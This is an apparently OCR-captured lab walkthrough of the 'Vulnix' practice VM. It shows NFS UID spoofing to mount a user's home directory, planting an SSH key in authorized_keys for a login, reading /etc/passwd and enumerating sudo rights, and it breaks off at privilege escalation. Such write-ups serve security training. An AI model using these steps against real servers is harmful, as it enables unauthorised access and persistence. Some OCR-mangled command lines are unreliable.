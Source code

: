 kali@kali:~$ root -l user 192.168.1.100
>user@vulnix:~$ id  
>uid=1000(user) gid=1000(user) groups=1000(user),100(users)

user@vulnix:~$ cat /etc/passwd
>root: x:0:0:root:/root:/bin/bash  
>vulnix: x:**2008**:**2008**::/home/vulnix:/bin/bash


### ACCESS TO NFS

root@kali:/home/kali# groupadd vulnix -g **2008**  
root@kali:/home/kali# useradd vulnix -u **2008** -g **2008** -s /bin/bash  
root@kali:/home/kali# mkdir /home/vulnix  
root@kali:/home/kali# mount --source 192.168.1.100:/home/vulnix --target /home/vulnix  
root@kali:/home/kali# su vulnix  
vulnix@kali:/home/kali$ cd /home/vulnix  
vulnix@kali:~$ ll>  
>total 20>  
>drwxr-x--- 2 vulnix vulnix 4096 Sep  2  2012 ./>  
>drwxr-xr-x 4 root   root   4096 Mar 10 16:04 ../>  
>-rw-r--r-- 1 vulnix vulnix  220 Apr  3  2012 .bash_logout>  
>-rw-r--r-- 1 vulnix vulnix 3486 Apr  3  2012 .bashrc>  
>-rw-r--r-- 1 vulnix vulnix  675 Apr  3  2012 .profile



### GETTING SSH WITH VULNIX

kali@kali:~$ ssh-keygen -t rsa  

kali@kali:~$ cat .ssh/id_rsa.pub  
>ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDT1Mw6+iVZcmCHOe9IBW7S5He5ZeBwTFNhNlNqZQ90S2GLlenYEJElGxS2LiZcjtaTi4DkeYSZlUOI+fXKb+iLLFXyHdkh53gqSwF/sD0rV8N+6HQB93XtwWf69SUm80Dw9rYTOkDhPzHhQFsUIXyErZeiX0vdcDsXEKUV+toYOmmUa/avVbz/Y9CjMTAAFxEDSzprbLAIORJ6ZjIeVn5J4xHo1+xuD3O0tQ/Jw7fhc7zTn3NGtd0JjDuRiz9T6X+eYLL6+rwMXnQXKxhGNbuBIObNHR/iNL1YZdSxH6W8gSFiHIGr42hSUV1dxEySDz8bNCZFI2etWyqbpTmfJGCP kali@kali

kali@kali:~$ su vulnix  

vulnix@kali:~/.ssh$ echo "ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDT1Mw6+iVZcmCHOe9IBW7S5He5ZeBwTFNhNlNqZQ90S2GLlenYEJElGxS2LiZcjtaTi4DkeYSZlUOI+fXKb+iLLFXyHdkh53gqSwF/sD0rV8N+6HQB93XtwWf69SUm80Dw9rYTOkDhPzHhQFsUIXyErZeiX0vdcDsXEKUV+toYOmmUa/avVbz/Y9CjMTAAFxEDSzprbLAIORJ6ZjIeVn5J4xHo1+xuD3O0tQ/Jw7fhc7zTn3NGtd0JjDuRiz9T6X+eYLL6+rwMXnQXKxhGNbuBIObNHR/iNL1YZdSxH6W8gSFiHIGr42hSUV1dxEySDz8bNCZFI2etWyqbpTmfJGCP kali@kali" > authorized_keys

kali@kali:~$ ssh -l vulnix 192.168.1.100


### PRIVILEGE ELEVATION

vulnix@vulnix:~$ sudo -l  
>Matching 'Defaults' entries for vulnix on this host:  
>    env_reset,  
>    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin  
>
>User vulnix may run the following commands on this host:  
>    (root) sudoedit /etc/exports, (root) NOPASSWD: sudoedit /etc/exports
